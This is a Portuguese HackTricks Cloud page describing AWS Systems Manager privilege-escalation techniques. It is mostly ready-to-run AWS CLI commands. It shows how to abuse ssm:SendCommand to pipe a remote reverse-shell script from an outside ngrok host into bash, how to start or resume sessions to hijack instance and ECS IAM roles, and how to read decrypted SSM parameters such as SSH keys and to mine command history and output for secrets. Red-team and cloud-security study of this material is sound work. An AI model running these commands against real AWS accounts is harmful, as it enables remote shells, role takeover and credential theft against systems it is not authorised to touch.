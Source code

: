 # AWS - SSM Privesc

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## SSM

Para mais informações sobre SSM, consulte:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Um atacante com a permissão **`ssm:SendCommand`** pode **executar comandos em instâncias** que executam o Amazon SSM Agent e **comprometer a IAM Role** que está sendo executada dentro dela.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"

# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Impacto Potencial:** Privesc direto para as funções IAM do EC2 anexadas a instâncias em execução com Agentes SSM ativos.

### `ssm:StartSession`

Um atacante com a permissão **`ssm:StartSession`** pode **iniciar uma sessão semelhante a SSH em instâncias** que executam o Agente SSM da Amazon e **comprometer a Função IAM** que está sendo executada dentro dela.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
**Impacto Potencial:** Privesc direto para as funções IAM do EC2 anexadas a instâncias em execução com Agentes SSM ativos.

#### Privesc para ECS

Quando **tarefas ECS** são executadas com **`ExecuteCommand` ativado**, usuários com permissões suficientes podem usar `ecs execute-command` para **executar um comando** dentro do contêiner.\
Conforme [**a documentação**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), isso é feito criando um canal seguro entre o dispositivo usado para iniciar o comando “_exec_“ e o contêiner alvo com o SSM Session Manager.\
Portanto, usuários com `ssm:StartSession` poderão **obter um shell dentro de tarefas ECS** com essa opção ativada, simplesmente executando:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (55).png>)

**Impacto Potencial:** Privesc direto para as funções do IAM `ECS` anexadas a tarefas em execução com `ExecuteCommand` ativado.

### `ssm:ResumeSession`

Um atacante com a permissão **`ssm:ResumeSession`** pode reiniciar uma **sessão semelhante a SSH em instâncias** executando o Agente SSM da Amazon com um estado de sessão SSM **desconectado** e **comprometer a Função IAM** que está sendo executada dentro dela.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Impacto Potencial:** Privesc direto para as funções IAM do EC2 anexadas a instâncias em execução com Agentes SSM ativos e sessões desconectadas.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Um atacante com as permissões mencionadas poderá listar os **parâmetros SSM** e **lê-los em texto claro**. Nestes parâmetros, é frequente **encontrar informações sensíveis** como chaves SSH ou chaves de API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Impacto Potencial:** Encontrar informações sensíveis dentro dos parâmetros.

### `ssm:ListCommands`

Um atacante com essa permissão pode listar todos os **comandos** enviados e, com sorte, encontrar **informações sensíveis** neles.
```
aws ssm list-commands
```
**Impacto Potencial:** Encontrar informações sensíveis dentro das linhas de comando.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Um atacante com essas permissões pode listar todos os **comandos** enviados e **ler a saída** gerada com a esperança de encontrar **informações sensíveis** nela.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Impacto Potencial:** Encontrar informações sensíveis dentro da saída das linhas de comando.

### Codebuild

Você também pode usar SSM para acessar um projeto codebuild em construção:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
